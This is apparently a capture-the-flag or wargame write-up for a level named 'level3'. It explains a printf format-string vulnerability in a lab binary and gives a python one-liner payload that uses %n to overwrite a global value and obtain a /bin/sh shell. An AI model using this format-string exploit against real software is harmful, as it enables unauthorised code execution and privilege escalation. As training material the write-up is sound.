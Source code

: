 # LEVEL3

## EXPLANATIONS

### BINARY BEHAVIOR

- function \<v\> called from main
  - call to fgets with a maximum of 512 read on stdin and put in buf
  - call to printf with buf on first arg(format string)
  - cmp between string in datasection and 0x40
    - => If equal, we see the string in 0x8048600 that we succeed, then a syscall on /bin/sh is made.

### EXPLOIT STRATEGY

Our goal is to have 0x40<sub>16</sub> (64<sub>10</sub>) inside this memory area.

- We are going to exploit the format string printf with the identifier %n that allow us to write a value in memory
- we write in the buffer :
  - string address in which to write 0x40
  - %60x
  - %4\$n

### RUN COMMAND

```
python -c "print('\x08\x04\x98\x8c'[::-1] + '%60x' + '%4\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | /home/user/level3/level3
```
